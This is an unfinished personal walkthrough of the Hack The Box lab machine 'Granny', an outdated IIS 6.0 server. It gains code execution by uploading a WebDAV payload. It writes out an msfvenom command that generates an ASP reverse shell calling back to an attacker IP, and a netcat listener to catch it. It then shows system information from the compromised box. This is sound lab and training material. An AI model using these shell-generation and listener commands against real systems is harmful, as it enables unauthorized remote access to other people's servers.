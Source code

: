 # * Granny
`* Still in progress`

## Recon

The tags on [this box](https://app.hackthebox.com/machines/14)  
> - Windows
> - Patch Management  
> - Web

Difficulty:
> Easy

The only open port is 80. There is an IIS 6.0 webserver running. The homepage appears to be broken:

![[Pasted image 20220115184455.png]]

IIS 6.0 is way old. There's gotta be exploits for it out there. I reviewed EDB exploits using searchsploit, but none of them seem exciting. I decided to check with [Hacktricks's WebDav page](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) and was happy to find the following method to gain code execution.

For the shell, I'll be using msfvenom to create a reverse tcp shell for windows.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f asp -o reverse.asp
```

![[Pasted image 20220115185937.png]]

Now start a listener to catch the reverse shell.

```bash
nc -nvlp 4444
```

Then trigger the exploit by visiting the malicious page we just uploaded.

![[Pasted image 20220115190110.png]]

Look, a shell!

![[Pasted image 20220115190203.png]]

System Info

```
> Host Name:                 GRANNY  
> OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition  
> OS Version:                5.2.3790 Service Pack 2 Build 3790  
> OS Manufacturer:           Microsoft Corporation  
> OS Configuration:          Standalone Server  
> OS Build Type:             Uniprocessor Free  
> Registered Owner:          HTB  
> Registered Organization:   HTB  
> Product ID:                69712-296-0024942-44782  
> Original Install Date:     4/12/2017, 5:07:40 PM  
> System Up Time:            0 Days, 0 Hours, 53 Minutes, 6 Seconds  
> System Manufacturer:       VMware, Inc.  
> System Model:              VMware Virtual Platform  
> System Type:               X86-based PC  
> Processor(s):              1 Processor(s) Installed.  
>   [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz  
> BIOS Version:              INTEL  - 6040000  
>  Windows Directory:         C:\WINDOWS  
> System Directory:          C:\WINDOWS\system32  
> Boot Device:               \Device\HarddiskVolume1  
> System Locale:             en-us;English (United States)  
> Input Locale:              en-us;English (United States)  
> Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk  
> Total Physical Memory:     1,023 MB  
> Available Physical Memory: 709 MB  
> Page File: Max Size:       2,470 MB  
> Page File: Available:      2,255 MB  
> Page File: In Use:         215 MB  
> Page File Location(s):     C:\pagefile.sys  
> Domain:                    HTB  
> Logon Server:              N/A  
> Hotfix(s):                 1 Hotfix(s) Installed.  
> [01]: Q147222  
> Network Card(s):           N/A 
```